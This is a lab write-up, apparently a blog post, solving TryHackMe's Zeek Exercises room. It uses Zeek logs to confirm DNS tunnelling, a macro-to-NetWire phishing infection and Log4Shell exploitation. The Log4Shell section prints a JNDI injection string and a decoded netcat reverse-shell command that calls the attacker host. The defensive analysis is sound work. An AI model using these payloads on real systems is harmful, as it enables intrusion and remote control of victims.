


| <script src="https://tryhackme.com/badge/434937"></script>| <a class="twitter-follow-button" href="https://twitter.com/anir0y" data-size="large"> Follow @anir0y<a>|
|---|---|
|Zeek Exercises ||

Zeek Exercises is the practice room that follows the Zeek theory room: three alerts land in your queue ("Anomalous DNS Activity", "Phishing Attempt", "Log4J Exploitation Attempt"), each with one pcap, and the job is to confirm every alert as a true positive using nothing but Zeek logs and the shell. No Wireshark, no SIEM. If you want the longer version of the same discipline, [Network Monitoring with Zeek](/post/thm-room-networkmonitoringwithzeek/) follows one `uid` across five logs, and [Snort Challenge: Live Attacks](/post/thm-room-snortchallenges2/) is the rule-writing counterpart on the IPS side.

All three cases follow the same loop: replay the pcap with `zeek -C -r`, look at which logs appeared, then carve columns out with `zeek-cut` and let `sort | uniq -c` do the counting.



## Task 1: the lab and how I drove it

The VM opens in split view with an `Exercise-Files` folder on the desktop holding three sub-folders: `anomalous-dns`, `phishing` and `log4j`. Each one has its pcap, any Zeek scripts the case needs, and a `clear-logs.sh` that wipes `*.log` and `extract_files` so you can start again. The box runs Zeek 4.2.1.

```bash
zeek --version
  # zeek version 4.2.1
```

One practical note. The VM's SSH port was reachable over my THM VPN, so I did the exploratory work over SSH and then re-ran the commands that matter in the VM's own terminal for the screenshots below. Over a non-interactive SSH session `zeek` is not on the `PATH` (it lives in `/opt/zeek/bin`); in the desktop terminal it just works. No answer needed for this task.

## Task 2: 6,893 queries that all end in the same domain

```bash
cd ~/Desktop/Exercise-Files/anomalous-dns
zeek -C -r dns-tunneling.pcap
ls
  # clear-logs.sh  conn.log  dns.log  dns-tunneling.pcap  http.log  ntp.log  packet_filter.log
```

The first question asks for the number of DNS records linked to the IPv6 address. An IPv6 address record is an `AAAA` query, so count the query types:

```bash
cat dns.log | zeek-cut qtype_name | sort | uniq -c | sort -rn
```


There are **320** AAAA records. The more interesting part of that output is the top three rows: TXT, MX and CNAME in an almost even three-way split, around 2,300 each, against 11 plain A lookups. No workstation asks for mail exchangers 2,314 times. Those three record types are the ones a DNS tunnel uses to carry data, and the even rotation between them is consistent with dnscat2's default behaviour.

The longest connection in `conn.log` is a `sort -rn` on the `duration` column: **9.420791** seconds.

The third question is the format trap in this room. "Filter all unique DNS queries" followed by "the number of unique domain queries" reads like a `sort -u | wc -l`, and that returns 6,905. The answer box wants a single digit. The queries look like this:

```
e7f1018ea0310f25bba0610936fd1cc2af.cisco-update.com    MX
0cfe016cb105e87901f6020958d084ff84.cisco-update.com    MX
4ecd018ea07bdf2f097a3f093785aca8a5.cisco-update.com    CNAME
```

Every one has a different 34-character hex label in front of the same parent, so the unique count is meaningless until you collapse each name to its last two labels. `rev | cut -d. -f1-2 | rev` does that without needing a public-suffix list:

```bash
cat dns.log | zeek-cut query | rev | cut -d. -f1-2 | rev | sort | uniq -c | sort -rn
  # 6893 cisco-update.com
  #  284 rhodes.edu
  #   47 ubuntu.com
  #   11 in-addr.arpa
  #   10 ip6.arpa
  #    2 _tcp.local
```

That is **6** unique domains, and it is also the finding: 6,893 of the 7,247 queries in the capture go to `cisco-update.com`, a name built to pass for vendor update traffic. The hex labels are the tunnelled payload.

For the host behind it, group `conn.log` by source, destination and port. One workstation, **10.20.57.3**, opened 4,238 sessions to 10.10.2.22 and 2,851 to 10.10.2.21, both on UDP/53. That is 7,089 of the 7,109 connections in the file, all from one source to the two internal resolvers.

## Task 3: an invoice, a macro and a RAT

```bash
cd ../phishing
zeek -C -r phishing.pcap hash-demo.zeek file-extract-demo.zeek
```

The two bundled scripts are one-liners that load Zeek's `hash-all-files` and `extract-all-files` policies. With them loaded, `files.log` gains MD5 and SHA1 columns and every transferred file is written to `extract_files/`. Without them the VirusTotal questions cannot be answered from the logs alone.

`conn.log` has a single internal host, so the "suspicious source address" is the workstation that did the downloading: **10[.]6[.]27[.]102**. The answers in this task want defanged notation, and the mask renders each bracket as an asterisk, which is why the format hint looks longer than an IP address.

```bash
cat http.log | zeek-cut id.orig_h host uri resp_mime_types
cat files.log | zeek-cut mime_type md5
```


Three HTTP requests in the whole capture. One is the Windows connectivity check to `www.msftncsi.com`, which is benign and worth recognising so you stop chasing it. The other two go to **smart-fax[.]com**: a Word document called `Invoice&MSO-Request.doc`, then about ten seconds later an executable requested as **knr.exe**. The user agents tell the story on their own. The document is fetched by Internet Explorer 11; the executable is fetched by an `MSIE 7.0` string with a long .NET tail, the kind of string Windows download APIs send on behalf of a program rather than a person browsing. The document downloaded the executable.



The hashes go to VirusTotal:

| File | MD5 | SHA256 |
|---|---|---|
| Invoice&MSO-Request.doc | `b5243ec1df7d1d5304189e7db2744128` | `f808229aa516ba134889f81cd699b8d246d46d796b55e13bee87435889a054fb` |
| knr.exe | `cc28e40b46237ab6d5282199ef78c464` | `749e161661290e8a2d190b1a66469744127bc25bf46e5d0c6f2e835f4b92db18` |

For the document, the Relations tab lists the bundled files stored inside it, and the first entries (including `ThisDocument.cls`) have the file type **VBA**. A macro, as the user agents already suggested.



The executable is flagged by 50 of 71 engines as NetWire, a commodity remote access trojan, and the file name VirusTotal gives it is **PleaseWaitWindow.exe**.

The contacted-domain question is where VirusTotal has drifted since the room was written. The Relations tab now lists 36 contacted domains for this sample, and the first page is Akamai, MSN and reverse-lookup noise from years of sandbox detonations. The one that matters is on the Behavior tab as the C2: `dunlop.hopto.org:2032`, so the answer is **hopto[.]org**, a dynamic DNS provider.

You do not actually need VirusTotal for that one. The pcap already contains it:

```bash
cat dns.log | zeek-cut query answers | grep hopto
  # dunlop.hopto.org    23.105.131.229
cat conn.log | zeek-cut id.orig_h id.resp_h id.resp_p duration | grep 2032
  # 10.6.27.102    23.105.131.229    2032    808.051063
```

The victim resolves the dynamic DNS name and then holds a session to it on TCP/2032 for 808 seconds, with no protocol Zeek can identify. That is the RAT checking in, and it confirms the sandbox report from the capture itself.

## Task 4: Log4Shell, from scanner to shell

```bash
cd ../log4j
zeek -C -r log4shell.pcapng detection-log4j.zeek
ls
  # conn.log  files.log  http.log  log4j.log  notice.log  signatures.log  weird.log  ...
```

`detection-log4j.zeek` loads the `cve-2021-44228` package from the site directory. It adds three things to the output: a `log4j.log` with every header that carried a JNDI string, notices in `notice.log`, and signature matches. Note the file name: the question says `signature.log`, the file Zeek writes is `signatures.log`.

```bash
cat signatures.log | zeek-cut sig_id | sort | uniq -c
cat http.log | zeek-cut user_agent | sort | uniq -c | sort -rn | head -3
cat http.log | zeek-cut id.orig_h id.resp_h uri | grep class
```


There are **3** signature hits, all `log4j_javaclassname_tcp`, which fires on the LDAP response that hands the victim a Java class reference. `notice.log` is noisier and worth reading alongside it: 151 `LOG4J_ATTEMPT_HEADER` notices, one `LOG4J_LDAP_JAVA` and three `LOG4J_JAVA_CLASS_DOWNLOAD`. The 151 are attempts. The three are the ones that worked.

The scanning tool is in the user agent: 593 of the 619 HTTP requests announce the **Nmap** Scripting Engine. The next most common "user agent" is not a browser at all, it is the payload: `${jndi:ldap://192.168.56.102:389}`. `log4j.log` shows the same string sprayed into every header the script could think of (Accept, Cookie, Referer, X-Api-Version and about thirty more), because the attacker does not know which one the application logs.

The direction of the last three requests is the proof of exploitation. Everything else in `http.log` flows from 172.17.0.1 to 172.17.0.2. These three flow the other way, from the server 172.17.0.2 out to 192.168.56.102, fetching `ExploitQ8v7ygBW4i.class`, `ExploitSMMZvT8GXL.class` and `Exploit6HHc3BcVzI.class`. The exploit file extension is **.class**, and a web server downloading Java bytecode from the host that just scanned it is not something to explain away.

The JNDI URIs for those three carry the commands in base64, so pull them out of `log4j.log` and decode:

```bash
cat log4j.log | zeek-cut uri | grep -o 'Base64/.*' | sort -u | cut -d/ -f2 \
  | while read b; do echo $b | base64 -d; done
  # nc 192.168.56.102 80 -e /bin/sh -vvv
  # which nc > /tmp/pwned
  # touch /tmp/pwned
```

The sensible reading is an escalation: create a marker file to prove execution, check whether netcat exists, then use it for a reverse shell. The created file is **pwned**.

## Task 5: wrapping up

The last task is a pointer to the Snort, Wireshark and NetworkMiner rooms and needs no answer. Every graded answer in this room went in on the first submission, which is what you would hope for when each one is a count or a string read straight out of a log.

## IOCs from the three captures

| Case | Indicator | What it is |
|---|---|---|
| Anomalous DNS | `cisco-update.com` | Tunnel domain, 6,893 hex-label queries |
| Anomalous DNS | 10.20.57.3 | Tunnelling host |
| Phishing | `smart-fax.com` (107.180.50.162) | Hosts the document and the executable |
| Phishing | `dunlop.hopto.org` (23.105.131.229:2032) | NetWire C2 |
| Log4Shell | 192.168.56.102 | Scanner, LDAP server, class host and shell listener |
| Log4Shell | `/tmp/pwned` | Marker file written on the victim |

## Takeaways

Two things carry over to real traffic. First, count before you read. Every case here opened with a `sort | uniq -c` on one column (query type, registered domain, user agent, connection pair), and in every case the anomaly was the row that was out of proportion: 2,314 MX lookups, 6,893 queries under one parent, 593 requests from a scanner. Reading 7,000 log lines would have found the same thing an hour later. Collapsing DNS names to their registered domain before counting is the single most useful version of that trick, because tunnels and DGAs both hide in the subdomain.

Second, the direction of a connection is evidence. The Log4Shell alert is not confirmed by 151 header notices, since those only show that someone tried. It is confirmed by three requests in which the server becomes the client and fetches a class file. The phishing case works the same way: the download is suspicious, but the 808 second outbound session to a dynamic DNS host is what says the payload ran. When triaging an exploitation alert, look for the first connection the victim initiates afterwards.

Room solved 100%: 5 tasks, 14 answers.
